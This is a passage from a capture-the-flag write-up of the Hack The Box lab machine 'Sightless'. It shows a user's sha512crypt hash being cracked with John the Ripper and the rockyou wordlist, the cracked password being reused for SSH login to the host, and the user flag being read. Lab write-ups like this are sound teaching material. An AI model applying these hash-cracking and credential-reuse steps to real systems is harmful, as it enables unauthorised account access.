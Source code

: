 We just went for the `hash` of `michael` because usually the passwords for `root` are very complex and not crackable at all.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Sightless/files]
└─$ cat hash_michael 
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/
```

After a few seconds we got the `password` for `michael` inside the `container`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Sightless/files]
└─$ sudo john hash_michael --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Created directory: /root/.john
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
insaneclownposse (?)     
1g 0:00:00:15 DONE (2024-09-07 22:04) 0.06472g/s 3811p/s 3811c/s 3811C/s kruimel..bluedolphin
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Username | Password         |
| -------- | ---------------- |
| michael  | insaneclownposse |

As next step we tried to use it on the main system and got lucky.

```c
┌──(kali㉿kali)-[~]
└─$ ssh michael@sightless.htb
The authenticity of host 'sightless.htb (10.129.200.167)' can't be established.
ED25519 key fingerprint is SHA256:L+MjNuOUpEDeXYX6Ucy5RCzbINIjBx2qhJQKjYrExig.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'sightless.htb' (ED25519) to the list of known hosts.
michael@sightless.htb's password: 
Last login: Tue Sep  3 11:52:02 2024 from 10.10.14.23
michael@sightless:~$
```

## user.txt

We grabbed the `user.txt` and proceeded with `pivoting`.

```c
michael@sightless:~$ cat user.txt 
a7ac719919b0fc2592425ca66997bf9c
```
